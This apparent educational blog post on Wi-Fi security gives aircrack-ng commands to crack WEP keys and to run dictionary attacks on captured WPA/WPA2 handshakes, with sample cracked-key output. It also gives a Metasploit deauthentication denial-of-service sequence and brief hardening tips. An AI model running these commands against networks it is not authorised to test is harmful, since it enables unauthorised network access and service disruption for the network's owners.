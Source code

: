 ```yaml
---
title: 'Wi-Fi Hacking and Security Guide'
description: 'Educational examples of Wi-Fi hacking techniques and security measures.'
date: 2024-11-20
tags: ['wifi', 'security', 'hacking']
image: 'assets/banner-wifi.webp'
authors: ['LMDtokyo']
---
```



## Introduction to Wi-Fi Security

In this article, we'll explore common methods used to audit and secure Wi-Fi networks. The tools and techniques described below should only be used in controlled environments, such as for penetration testing of networks you own or have explicit permission to test.

<InfoBox type="warning">
  **Disclaimer**: Unauthorized access to networks is illegal. This content is provided for educational purposes only.
</InfoBox>

---

## Example 1: Monitoring Traffic with `airodump-ng`

One of the most common tools for capturing Wi-Fi traffic is **aircrack-ng**. Below is an example of using `airodump-ng` to monitor Wi-Fi networks in your area.

```bash
# Start monitoring mode on your wireless interface
sudo airmon-ng start wlan0

# Capture traffic on all nearby networks
sudo airodump-ng wlan0mon
````

Example 2: Cracking WEP Encryption
WEP is an outdated Wi-Fi encryption protocol and should not be used. Here's an example of how it can be cracked:

```bash
# Target a specific network and capture traffic
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w capture wlan0mon

# Inject packets to speed up the process
sudo aireplay-ng --arpreplay -b 00:11:22:33:44:55 wlan0mon

# Use aircrack-ng to crack the WEP key
sudo aircrack-ng capture-01.cap
```
Output:
```bash
Aircrack-ng 1.6

[00:11:22:33:44:55] WEP key found: 1234567890
```
Example 3: WPA/WPA2 PSK Attack
To test the security of WPA/WPA2 networks, you can use dictionary attacks. This example uses aircrack-ng to brute-force the handshake:
```bash
# Capture WPA/WPA2 handshake
sudo airodump-ng --bssid 00:11:22:33:44:55 --channel 6 -w handshake wlan0mon

# Use aircrack-ng to perform a dictionary attack
sudo aircrack-ng -w wordlist.txt -b 00:11:22:33:44:55 handshake-01.cap
```
Output:
```bash
[00:11:22:33:44:55] WPA Key found: supersecurepassword

```

Example 4: Defending Your Wi-Fi Network
Here are some tips to secure your Wi-Fi:

Use WPA3: Upgrade your router to use WPA3 encryption, if supported.
Disable WPS: Wi-Fi Protected Setup (WPS) is a common attack vector.
Use a Strong Password: Avoid simple passwords and use a random generator.
Hide Your SSID: While not foolproof, hiding your SSID can reduce the chance of casual attackers finding your network.
Example of Strong WPA3 Configuration:
```bash
Router Name: MySecureWiFi
SSID: Hidden
Encryption: WPA3-PSK
Password: Y!X$3k#12R!t@X%3

```

Advanced Wi-Fi Auditing Tools
<figure> <div class="max-w-72 mx-auto [&_img]:mb-0"> ![Metasploit Wi-Fi Module Example](assets/metasploit-wifi.png) </div> <figcaption class="text-center">Metasploit Wi-Fi Exploitation Example</figcaption> </figure>
Example: Using metasploit for Wi-Fi Penetration Testing

```bash
# Launch Metasploit console
sudo msfconsole

# Search for Wi-Fi modules
search wifi

# Use a specific module
use auxiliary/wifi/dos/deauth

# Set required options
set INTERFACE wlan0
set BSSID 00:11:22:33:44:55

# Execute the attack
run
```
ASCII Art for Inspiration
```bash
   /$$      /$$ /$$      /$$ /$$$$$$  /$$$$$$$$ /$$$$$$$
  | $$$    /$$$| $$$    /$$$|_  $$_/ |__  $$__/| $$__  $$
  | $$$$  /$$$$| $$$$  /$$$$  | $$      | $$   | $$  \ $$
  | $$ $$/$$ $$| $$ $$/$$ $$  | $$      | $$   | $$$$$$$/
  | $$  $$$| $$| $$  $$$| $$  | $$      | $$   | $$__  $$
  | $$\  $ | $$| $$\  $ | $$  | $$      | $$   | $$  \ $$
  | $$ \/  | $$| $$ \/  | $$ /$$$$$$    | $$   | $$  | $$
  |__/     |__/|__/     |__/|______/    |__/   |__/  |__/
```
